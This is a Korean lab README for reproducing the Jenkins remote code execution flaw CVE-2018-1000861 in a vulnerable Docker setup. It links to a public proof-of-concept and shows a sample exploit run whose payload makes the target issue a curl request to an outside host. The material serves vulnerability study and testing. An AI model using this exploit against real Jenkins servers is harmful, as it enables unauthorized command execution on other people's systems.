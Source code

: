 # Jenkins 원격 명령실행 취약점（CVE-2018-1000861）

Jenkins는 HTTP 요청 처리를 위해 Stapler 웹 프레임워크를 사용합니다. CVE-2018-1000861은 jenkins의 취약점으로 Stapler/core/src/main/java/org/kohsuke/stapler/MetaClass.java 파일의 부적절한 URL 유효성 검사로 인해 URL을 통하여 시스템에서 일부 JAVA 메소드를 호출해 의도하지 않은 결과를 도출할 수 있는 취약점입니다.

다음은 이 취약점의 잠재적인 공격 방식입니다.

```
인증되지 않은 사용자는 내장된 Winstone-Jetty 서버로 Jenkins를 실행할 때 모든 세션을 무효화할 수 있습니다.

전체/읽기 권한이 있는 사용자는 메모리에 새 사용자 개체를 만들 수 있습니다.

전체/읽기 액세스 권한이 있는 사용자는 주기적으로 실행되는 AsyncPeriodicWork 구현 실행을 수동으로 시작할 수 있습니다.
```

본 취약점은 미국 국립 표준 기술 연구소의 NVD CVSS 3.x (취약점 점수)에서 9.8 critical 점수를 받았습니다.

## 실행방법

Shell에서 다운로드 받은 docker-compose.yml의 폴더로 이동하고 다음 명령어를 입력합니다.

```
docker compose up -d
```

도커에 의해 취약점이 존재하는 환경의 버전으로 자동 Pulling 되고 Created, Started 순서로 자동진행 됩니다.
![](5.png)

`http://localhost:8080`으로 접속하면 jenkins가 정상적으로 실행됩니다.
![](2.png)

## 익스플로잇

[POC](https://github.com/orangetw/awesome-jenkins-rce-2019) 코드로 익스플로잇 할 수 있습니다.
doker-compose.yml의 jenkins 버전이 2.138 이기 때문에 실행시 2.137초과 라는 출력이 나오게 됩니다.
![](1.png)

이외 3가지의 추가 flag 상태가 있습니다
![](4.png)

익스플로잇 하기 위한 다음과 같은 예제가 있습니다.

```
$ python exp.py http://jenkins/ 'curl orange.tw'
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```

또한 CVE-2018-1000861 이외의 취약점도 익스플로잇 해볼 수 있습니다.
CVE-2019-1003005
CVE-2019-1003029

## 참고자료

https://www.jenkins.io/security/advisory/2018-12-05/#SECURITY-595
https://nvd.nist.gov/vuln/detail/CVE-2018-1000861
https://github.com/orangetw/awesome-jenkins-rce-2019
https://github.com/vulhub/vulhub/blob/master/jenkins/CVE-2018-1000861/README.md
